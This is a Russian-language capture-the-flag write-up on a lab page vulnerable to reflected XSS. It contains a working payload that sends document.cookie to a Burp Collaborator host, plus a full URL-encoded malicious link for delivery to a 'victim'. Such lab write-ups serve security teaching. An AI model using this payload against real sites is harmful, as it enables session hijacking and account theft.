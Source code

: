 # XSS_stealcookie_basic_example

Дана простая страница с формой, которая публикует записи на странице.

![image.png](XSS_stealcookie_basic_example%2019b021737a8980af843befffcbbc657a/image.png)

Текст записи формируется из параметра `test` . Проверяем на уязвимость XSS:

```php
<script>alert('1')</script>
```

![image.png](XSS_stealcookie_basic_example%2019b021737a8980af843befffcbbc657a/image%201.png)

Уязвимость подтверждена. С учетом того, что контент записи передается посредством GET-параметра, можно осуществить Reflected XSS.

Для этой атаки, воспользуемся Burp Collaborator из Pro-версии.

![image.png](XSS_stealcookie_basic_example%2019b021737a8980af843befffcbbc657a/image%202.png)

Нажимаем `Copy to clipboard` , копируем URL-адрес хука, модифицируем пейлоад.

```php
<script>document.location="http://uig5qcc42hlnqgtcsy5jd11tekkd85wu.oastify.com?c="+document.cookie</script>
```

Вставляем в форму и проверяем работоспособность:

![image.png](XSS_stealcookie_basic_example%2019b021737a8980af843befffcbbc657a/image%203.png)

Запрос направился на хук, куки включены в URL. В Collaborator ждем пока обновится или сами нажимаем `Poll now`, и тоже видим запрос. 

![image.png](XSS_stealcookie_basic_example%2019b021737a8980af843befffcbbc657a/image%204.png)

Чтобы собрать вредоносный URL с отраженным XSS, включаем Proxy Intercept, ловим запрос, собираем полный URL — готово!

![image.png](XSS_stealcookie_basic_example%2019b021737a8980af843befffcbbc657a/image%205.png)

```bash
http://172.23.215.92:8022/c6699f30299e9eb31b7363f7b3271f39/?test=%3Cscript%3Edocument.location%3D%22http%3A%2F%2Fuig5qcc42hlnqgtcsy5jd11tekkd85wu.oastify.com%3Fc%3D%22%2Bdocument.cookie%3C%2Fscript%3E
```

---

Далее остается лишь предоставить жертве “зараженную” ссылку и дождаться, когда он по ней перейдет. В этом задании нужно было еще закодировать ссылку в base64, чтобы не сбить форматирование. Отдаем ссылку:

![image.png](XSS_stealcookie_basic_example%2019b021737a8980af843befffcbbc657a/image%206.png)

![image.png](XSS_stealcookie_basic_example%2019b021737a8980af843befffcbbc657a/image%207.png)

Проверяем Collaborator:

![image.png](XSS_stealcookie_basic_example%2019b021737a8980af843befffcbbc657a/image%208.png)

Готово, флаг у нас!